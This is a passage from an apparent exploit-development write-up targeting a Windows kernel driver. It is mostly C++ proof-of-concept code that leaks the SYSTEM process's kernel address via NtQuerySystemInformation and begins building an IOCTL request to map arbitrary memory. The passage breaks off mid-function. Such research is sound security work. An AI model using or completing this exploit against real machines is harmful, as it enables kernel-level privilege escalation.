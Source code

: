 We are updating the PoC to map the SYSTEM process & compare that the data of the mapped area & the original virtual address are indeed the same:

```cpp
#include "windows.h"
#include <stdio.h>

#define QWORD ULONGLONG
#define IOCTL_01 0x9C406500

#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2

using fNtQuerySystemInformation = NTSTATUS(WINAPI*)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
    );

typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO {
    USHORT UniqueProcessId;
    USHORT CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

typedef struct _SYSTEM_HANDLE_INFORMATION {
    ULONG NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef NTSTATUS(NTAPI* _NtQueryIntervalProfile)(
    DWORD ProfileSource,
    PULONG Interval
);

QWORD getSystemEProcess() {
    ULONG returnLenght = 0;
    fNtQuerySystemInformation NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandle(L"ntdll"), "NtQuerySystemInformation");
    PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);
    NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnLenght);
    SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = (SYSTEM_HANDLE_TABLE_ENTRY_INFO)handleTableInformation->Handles[0];
    return (QWORD)handleInfo.Object;
}

QWORD mapArbMem(QWORD addr, HANDLE hDriver) {
    DWORD index = 0;
    DWORD bytesWritten = 0;
    LPVOID uInBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    LPVOID uOutBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    QWORD* in = (QWORD*)((QWORD)uInBuf);
    *(in + index++) = 0x4141414142424242;
    *(in + index++) = 0x4343434300001000; // size
    *(in + index++) = addr;               // addr

```